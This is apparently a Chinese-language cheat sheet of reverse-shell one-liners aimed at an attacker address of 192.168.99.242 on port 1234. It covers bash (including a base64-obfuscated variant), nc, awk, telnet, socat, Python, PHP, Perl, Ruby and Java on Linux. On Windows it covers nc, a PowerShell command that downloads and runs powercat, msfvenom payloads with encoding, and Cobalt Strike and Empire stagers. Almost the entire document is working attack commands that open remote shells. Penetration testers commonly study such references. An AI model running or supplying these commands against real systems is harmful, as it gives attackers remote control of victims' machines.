 # 反弹shell姿势总结

- 攻击机ip：192.168.99.242
- 监听端口：1234  （nc -lvvp 1234）

## Linux

### bash反弹

```bash
bash -i >& /dev/tcp/192.168.99.242/1234 0>&1
```

```bash
bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljk5LjI0Mi8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}'
```

```bash
exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5;done
```

```bash
exec /bin/sh 0</dev/tcp/192.168.99.242/1234 1>&0 2>&0
```

### nc反弹

```bash
nc -e /bin/bash 192.168.99.242 1234
```

### awk反弹

```bash
awk 'BEGIN{s="/inet/tcp/0/192.168.99.242/1234";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

### telnet反弹

需要在攻击机上分别监听1234和4321端口，获得shell之后，在1234端口终端输入命令，4321端口终端查看命令执行结果

```bash
telnet 192.168.99.242 1234 | /bin/bash | telnet 192.168.99.242 4321
```

### socat反弹

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane 
tcp:192.168.99.242:1234
```

### python反弹

```python
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.99.242',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

**交互式shell**

```python
python -c 'import pty;pty.spawn('/bin/bash')'    
```

```python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### PHP反弹

```php
php -r '$sock=fsockopen("192.168.99.242",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Perl反弹

```perl
perl -e 'use Socket;$i="192.168.99.242";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Ruby反弹

```ruby
ruby -rsocket -e'f=TCPSocket.open("192.168.99.242",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java反弹

编译执行reverse.java

```java
javac reverse.java
java reverse
```

```java
//reverse.java
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```

## Windows

### nc反弹

```cmd
nc 192.168.99.242 1234 -e c:\windows\system32\cmd.exe
```

### powershell反弹

```cmd
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.99.242 -p 1234 -e cmd
```

### MSF反弹

```cmd
msfvenom -l payloads | grep 'cmd/windows/reverse'
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.99.242 LPORT=1234
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 LHOST=192.168.99.242 LPORT=1234 -f exe > /hack.exe
```

### Cobalt Strike反弹

```cmd
1、配置监听器：点击Cobalt Strike——>Listeners——>在下方Tab菜单Listeners，点击add。
2、生成payload：点击Attacks——>Packages——>Windows Executable，保存文件位置。
3、目标机执行powershell payload
```

### Empire反弹

```cmd
usestager windows/launcher_vbs
info
set Listener test
execute
```